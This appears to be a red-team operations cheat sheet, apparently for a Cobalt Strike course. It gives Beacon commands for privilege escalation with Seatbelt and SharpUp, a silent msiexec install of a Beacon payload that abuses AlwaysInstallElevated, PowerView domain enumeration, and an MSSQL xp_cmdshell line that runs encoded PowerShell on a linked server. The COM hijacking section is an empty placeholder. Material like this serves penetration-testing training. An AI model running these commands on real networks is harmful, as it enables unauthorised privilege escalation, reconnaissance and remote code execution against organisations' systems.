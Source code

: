 # RTO CheatSheet

## Persistence

### COM Hijacking

<TODO>
  
## PrivEsc
  
### Seatbelt
  
https://github.com/GhostPack/Seatbelt
  
Sample usage:
  
> beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Debug\Seatbelt.exe -group=system
  
### SharpUp

https://github.com/GhostPack/SharpUp

Sample usage:
  
> beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Debug\SharpUp.exe
> 
> === Modifiable Services ===
> 
>  Name             : Vuln-Service-2
>
>  DisplayName      : Vuln-Service-2
>
>  Description      : 
>
>  State            : Running
>
>  StartMode        : Auto
>
>  PathName         : "C:\Program Files\Vuln Services\Service 2.exe"

Detects:
  - Modifiable Service
  - AlwaysInstallElevated flags in Registry
  
#### Weaponized

##### AlwaysInstallElevated - Install msi package file

> beacon> run msiexec /i BeaconInstaller.msi /q /n
  
## Domain Enumeration
  
### PowerView
  
#### Setup

> beacon> powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
  
#### Usages
  
Retrieve Domain information, parameter is optional:
  
> beacon> powershell Get-Domain -Domain <Domain>

Retrieve Domain Controllers and further Domain information:

> beacon> powershell Get-DomainController | select Forest, Name, OSVersion | fl
  
Retrieve Forest information, parameter is optional:
  
> beacon> powershell Get-ForestDomain -Forest [Forest]
  
Get useful information about domain policies like password policies e.g
  
> beacon> powershell Get-DomainPolicyData | select -ExpandProperty SystemAccess
  
Get User information:
  
> beacon> powershell Get-DomainUser -Identity [username] -Properties DisplayName, MemberOf | fl
  
## MSSQL
  
> SELECT * FROM OPENQUERY("[targetserver]", 'select @@servername; exec xp_cmdshell ''powershell -enc [EncodedString]''');
